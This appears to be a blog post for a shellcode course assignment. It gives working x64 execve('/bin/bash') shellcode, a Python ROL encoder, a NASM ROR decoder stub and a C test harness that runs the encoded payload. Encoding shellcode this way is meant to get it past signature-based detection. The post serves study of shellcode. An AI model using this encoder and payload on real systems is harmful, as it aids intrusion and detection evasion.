```yaml
---
title: SLAE64 Assignment 4 - ROL Encoder 
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the fourth assignment of the SLAE64 I created a Rotate Left (ROL) Encoder and a Rotate Right (ROR) decoder.   
The ROL encoder is a python program that rotates every byte of the payload to the left by 1 bit. The companion ROR decoder rotates every byte of the payload to the right by 1 bit, and then passes execution to the decoded payload. The example payload is an execve shellcode that spawns a bash shell.

# The Python Rotate Left (ROL) Encoder 

```python
#!/usr/bin/python
shellcode  = "\x48\x31\xf6"     # xor rsi, rsi
shellcode += "\x48\xf7\xe6"     # mul rsi          ; rdx&rax= 0x0
shellcode += "\x48\x31\xff"     # xor rdi, rdi
shellcode += "\x57"             # push rdi
shellcode += "\x48\x83\xc2\x68" # add rdx, 0x68
shellcode += "\x52"             # push rdx
shellcode += "\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" # movabs rdx, 0x7361622f6e69622f ; "/bin/bas"
shellcode += "\x52"             # push rdx
shellcode += "\x48\x31\xd2"     # xor rdx, rdx
shellcode += "\x48\x89\xe7"     # mov rdi, rsp ; rdi = Pointer -> "/bin/bash"0x00
shellcode += "\xb0\x3b"         # mov al, 0x3b ; execve syscall number
shellcode += "\x0f\x05";        # syscall  ; call execve("/bin/bash", NULL, NULL)

encoded = ""
for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded += '0x'
        encoded += '%02x,' %x  # Add the rotated left hex to string
    else:
        encoded += '0x'        # No leftmost bit, just rotate
        encoded += '%02x,' %(x << 1)
print encoded+"0xaa"
print 'Len: %d' % len(bytearray(shellcode))
```  

+ The byte 0xaa is added to the end of the payload. This is how our ROR decoder will know it has reached the end of the payload.

## Encoding the Payload
```bash
root# python rotateLeftEncoder.py
0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,0x90,0x07,\
0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,0xdc,0x5e,0xc4,0xc2,\
0xe6,0xa4,0x90,0x62,0xa5,0x90,0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
Len: 36
```

# The Rotate Right (ROR) Decoder
```asm
; Filename: rotateRightDecoder.nasm
; Author:   boku
global _start
section .text
_start:
  jmp short call_decoder ; 1. jump to shellcode string
decoder:
  pop rsi                ; 3. RSI=&String 
decode:
  ror byte [rsi], 1      ; 4. decode byte with bitwise rotate right
  cmp byte [rsi], 0x55   ; 5. Last byte? ror 0xaa, 1 = 0x55
  je Shellcode           ;    - Yes? jump to payload and execute
  inc rsi                ; 6. No? Move forward 1 byte
  jmp short decode       ; 7. Lets decode the next byte
call_decoder:
  call decoder           ; 2. [RSP]=&String
  Shellcode: db 0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,\
                0x90,0x07,0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,\
                0xdc,0x5e,0xc4,0xc2,0xe6,0xa4,0x90,0x62,0xa5,0x90,\
                0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
```

## Getting the ROR Decoder Shellcode

```bash
root# cat getshellcode.sh
#!/bin/bash
asmFile=$1
noExt=$(echo $asmFile | sed 's/\..*$//g')
objFile=$noExt".o"
nasm -f elf64 $asmFile -o $objFile
for i in $(objdump -D $objFile | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo ''

root# ./getshellcode.sh rotateRightDecoder.asm
\xeb\x0d\x5e\xd0\x0e\x80\x3e\x55\x74\x0a\x48\xff
\xc6\xeb\xf4\xe8\xee\xff\xff\xff\x90\x62\xed\x90
\xef\xcd\x90\x62\xff\xae\x90\x07\x85\xd0\xa4\x90
\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4\x90\x62
\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa
```

# Testing the ROR Decoder

```c
// Shellcode Title:  Linux/x64 - ROL Encoded Execve Shellcode (57 bytes)
// Shellcode Author: Bobby Cooke
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x0d"              // jmp short call_decoder
// decoder:
"\x5e"                  // pop rsi = &String
// decode:
"\xd0\x0e"              // ror byte [rsi], 1
"\x80\x3e\x55"          // cmp byte [rsi], 0x55 - last byte? ror 0xaa, 1 = 0x55
"\x74\x0a"              // je Shellcode - End? Jump to shellcode!
"\x48\xff\xc6"          // inc rsi - Not end? move 2 next byte
"\xeb\xf4"              // jmp short decode - loop 2 decode next byte
// call_decoder:
"\xe8\xee\xff\xff\xff"  // call decoder // go 2 decode loop
// Execve(/bin/bash) ROL Encoded Shellcode
"\x90\x62\xed\x90\xef\xcd\x90\x62\xff\xae\x90\x07\x85"
"\xd0\xa4\x90\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4"
"\x90\x62\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}

```

## Final Test

```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3067 pts/3    Ss     0:00 /bin/bash
root# ./shellcode
Shellcode Length:  57
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3501 pts/3    S      0:00 [bash]
```
